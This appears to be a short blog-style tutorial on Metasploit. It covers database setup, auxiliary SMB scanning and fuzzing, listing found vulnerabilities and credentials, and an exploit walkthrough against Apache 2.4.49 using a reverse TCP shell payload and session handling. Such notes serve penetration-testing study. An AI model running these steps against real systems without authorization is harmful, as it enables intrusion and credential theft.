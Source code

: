 ```yaml
---
layout: post
title: Metsploit Modules
titledate: 09/25/23
tags: ["infosec", "info_gathering", "offsec", "metasploit"]
---
```


#### setup

start the db

    $ sudo msfdb init

enabe db at boot

    $ sudo systemctl enable postgresql

startup

    $ sudo msfconsole

check db connectio

    msf> db_status

list commands

    msf> help

#### auxiliary

aux modules include scanning, sniffing, and fuzzing capabilities

    msf> show auxiliary

search for a type

    msf> search type:auxiliary smb

once found we can enter the module by path/name or number

    msf> use 22

    msf> use /auxiliary/fuzzers/smb/smb_tree_connect

next we can gain information about the module

    msf> info

and then what arguments it takes and requires

    msf> show options

we can manually set a target

    msf> set RHOSTS 192.168.1.1

or use previously disovered hosts

    msf> unset RHOSTS

    msf> services -p 445 --rhosts

we execute the module

    msf> run

check vulns detected with 

    msf> vulns

any creds discovered can be listed with

    msf> creds

#### exploit

let's assume we've scanned a host and identified it is vulnerable to a specific exploit

we begin by startig a new workspace for this specific attack surface

    msf> workspace -a exploits

then we can search for related exploits to the software

    msf> search Apache 2.4.49

we load the exploit module

    msf> use 1

now see required and optional arguments

    msf> show options

we can set our payload, host and port

    msf> set payload payload/linux/x64/shell_reverse_tcp

    msf> set RPORT 80

    msf> set RHOSTS 192.168.1.1

and execute

    msf> run

if a session is succesful and established, we can ctrl+z to background the session

to interact with it

    msf> sesssions -l

    msf> session -i 2

we then have a host of commands depending on the platform and session opened to us
